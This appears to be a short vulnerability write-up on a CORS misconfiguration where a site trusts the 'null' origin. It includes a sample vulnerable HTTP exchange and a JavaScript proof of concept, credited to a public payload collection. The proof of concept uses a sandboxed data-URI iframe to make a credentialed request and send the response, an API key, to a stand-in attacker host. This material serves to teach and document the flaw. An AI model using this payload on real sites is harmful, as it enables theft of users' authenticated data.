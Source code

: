 # Null origin

## Description 
Host allows requests from `null` origins.

`wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts

**Severity**: High

## Exploit 
Make requests using a sandboxed iFrame.

### Example

**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit can be done by putting the attack code into an iframe using the data URI scheme.  
If the data URI scheme is used, the browser will use the `null` origin in the request:

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```


[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-null-origin)
